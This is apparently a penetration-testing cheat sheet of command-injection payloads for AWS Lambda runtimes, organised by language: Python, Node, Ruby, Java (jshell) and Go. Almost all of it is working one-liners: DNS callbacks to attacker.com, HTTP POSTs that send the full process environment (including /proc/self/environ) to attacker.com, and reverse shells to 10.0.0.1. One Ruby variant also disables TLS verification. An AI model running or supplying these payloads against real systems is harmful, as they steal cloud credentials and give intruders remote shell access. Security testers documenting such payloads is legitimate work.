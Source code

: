 # Lambda

AWS Lambda functions are ran in a limited container with native libraries. This listing provides payloads that were identified to work in each function's runtime to demonstrate command injection. None of the payloads should rely on additional Lambda layers or 3rd party packages. This should result in generic payloads that can be used in each of the common runtime environments.

If the payload requires pipes or redirectors you may need to borrow the `sh -c $@|sh . echo <command>` technique from [https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html](https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html)

## Generic

Bash Reverse Shell
```
bash -i >& /dev/tcp/10.0.0.1/80 0>&1
```

## Python

### DNS

```
python3 -c 'import socket;socket.gethostbyname("attacker.com")'
```

### OOB HTTP Request

```
python3 -c 'import os,urllib3;h=urllib3.PoolManager();h.request("POST","https://attacker.com/data",fields={"q":str(os.environ)})'
```

### Reverse Shell
[Credit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```
python3 -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

## Node

### DNS

```
node -e 'var dns=require("dns");dns.lookup("attacker.com",()=>({}))'
```

### OOB HTTP Request

```
node -e 'fetch("https://attacker.com/data",{method:"POST",body:JSON.stringify(process.env)});'
```

### Reverse Shell

```
node --input-type=module -e 'import "net";import * as cp from "child_process";var sh = cp.spawn("/bin/sh",[]);var client = new net.Socket();client.connect(80,"10.0.0.1",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});'
```

## Ruby

### DNS

```
ruby -r resolv -e 'Resolv.getaddress "attacker.com"'
```

### OOB HTTP Request

```
ruby -ruri -r 'net/http' -e 'Net::HTTP.post_form(URI("https://attacker.com"),ENV.to_h)'
```

If there is a TLS verification issue, verification can be disabled:

```
ruby -r openssl -r uri -r 'net/http' -e 'OpenSSL::SSL::VERIFY_PEER = OpenSSL::SSL::VERIFY_NONE; Net::HTTP.post_form(URI("https://attacker.com"),ENV.to_h)'
```

### Reverse Shell
[Credit](https://gist.github.com/xfgusta/cfc8b4283fcfeabbfff3437ef6329916)

```
ruby -rsocket -e'Process.wait spawn("sh",[0,1,2]=>TCPSocket.new("10.0.0.1",80))'
```

## Java

### DNS

```
printf 'InetAddress.getByName("attacker.com")\n/exit\n' | jshell
```

### OOB HTTP Request

```
printf 'java.net.http.HttpClient client = java.net.http.HttpClient.newBuilder().build();java.net.http.HttpRequest request = java.net.http.HttpRequest.newBuilder().POST(java.net.http.HttpRequest.BodyPublishers.ofString(System.getenv().toString())).uri(java.net.URI.create("https://attacker.com")).build();client.send(request, java.net.http.HttpResponse.BodyHandlers.ofString());\n/exit\n' | jshell
```

### Reverse Shell
[Credit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#java-alternative-1)

```
printf 'String host="10.0.0.1";int port=80;String cmd="/bin/sh";Process p=new java.lang.ProcessBuilder(cmd).redirectErrorStream(true).start();java.net.Socket s=new java.net.Socket(host,port);java.io.InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();java.io.OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();java.lang.Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();\n/exit\n' | jshell
```

## GoLang

Python3 and perl interpreters exist in the GoLang Lambda environment, as such payloads can be used from these languages against GoLang containers.

### DNS

```
perl -e 'use Socket;gethostbyname("attacker.com");'
```

### OOB HTTP Request

Curl exists on the GoLang container, but not other containers.

```
/usr/bin/curl -X POST https://attacker.com -d @/proc/self/environ
```

### Reverse Shell
[Credit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl)

```
perl -e 'use Socket;$i="10.0.0.1";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
